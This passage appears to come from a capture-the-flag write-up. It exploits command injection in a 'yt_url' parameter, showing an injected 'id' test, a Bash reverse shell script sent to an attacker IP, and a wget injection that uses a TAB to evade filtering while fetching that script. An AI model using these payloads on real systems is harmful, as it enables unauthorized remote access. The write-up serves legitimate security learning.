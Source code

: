 We can escape the flags by adding `--` before the command.&#x20;

Let's change the `yt_url` parameter to the following to check if we have a command execution vulnerability on our hands:

```
yt_url=---;id;
```

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

Now, let's create a simple a Bash reverse shell script.

```
$ echo "bash -i >& /dev/tcp/10.17.48.138/9998 0>&1" > reverse_shell.sh
```

Let's set up a Python3 server on our machine.

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

We can now set the `yt_url` parameter to the following to download the reverse shell on the target.

```
yt_url=---;wget    http://10.17.48.138:8000/reverse_shell.sh;
```

Note that in order for this command to work, there needs to be a TAB between `wget` and `http` instead of a SPACE.
